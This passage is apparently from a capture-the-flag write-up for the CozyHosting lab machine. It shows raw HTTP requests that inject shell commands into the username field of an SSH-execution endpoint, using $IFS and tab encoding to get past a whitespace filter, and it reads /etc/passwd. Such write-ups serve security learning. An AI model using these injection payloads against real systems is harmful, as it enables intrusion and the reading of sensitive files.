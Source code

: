 The error `/bin/bash: line 1: @10.10.14.25: command not found` indicates we have a potential OS command injeciton. However, inserting whitespaces does not work.


Sending
```
POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 56
Origin: http://cozyhosting.htb
Connection: close
Cookie: JSESSIONID=E8735D16809559854F63731D775B55EF
Upgrade-Insecure-Requests: 1

host=10.10.14.25&username=$(cat$IFS/etc/passwd)kanderson
```

Returns:
```
HTTP/1.1 302 
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 25 Sep 2023 23:27:37 GMT
Content-Length: 0
Location: http://cozyhosting.htb/admin?error=ssh: Could not resolve hostname root:x:0:0:root:/root:/bin/bash: Name or service not known
Connection: close
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY


```

Where we can see the beginning of `/etc/passwd`

Sending:
```
POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Origin: http://cozyhosting.htb
Connection: close
Cookie: JSESSIONID=E8735D16809559854F63731D775B55EF
Upgrade-Insecure-Requests: 1

host=10.10.14.25&username=$(ping%0910.10.14.25)kanderson
```
